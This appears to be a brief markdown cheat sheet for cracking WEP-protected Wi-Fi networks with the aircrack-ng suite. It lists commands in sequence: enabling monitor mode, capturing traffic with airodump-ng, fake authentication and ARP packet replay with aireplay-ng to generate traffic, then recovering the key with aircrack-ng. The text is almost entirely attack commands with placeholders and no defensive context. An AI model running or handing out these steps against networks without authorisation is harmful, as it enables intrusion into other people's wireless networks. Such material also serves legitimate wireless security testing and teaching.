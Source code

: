 ### No replay-defense -  crypto is weak - can be cracked fast when at least 20 K packets captured
```
airmon-ng check
airmon-ng check kill
airmon-ng start <interface>
airodump-ng <interface> --bssid <bssid> --channel <channel> --write <file>
```

### -1 for fake authentication
```
aireplay-ng -1 0 -a <bssid> <interface>
```

### Replay arp packages to speed up traffic
```
aireplay-ng <interface> --arpreplay -b <bssid>
```

### Crack password
```
aircrack-ng <file>.cap
```

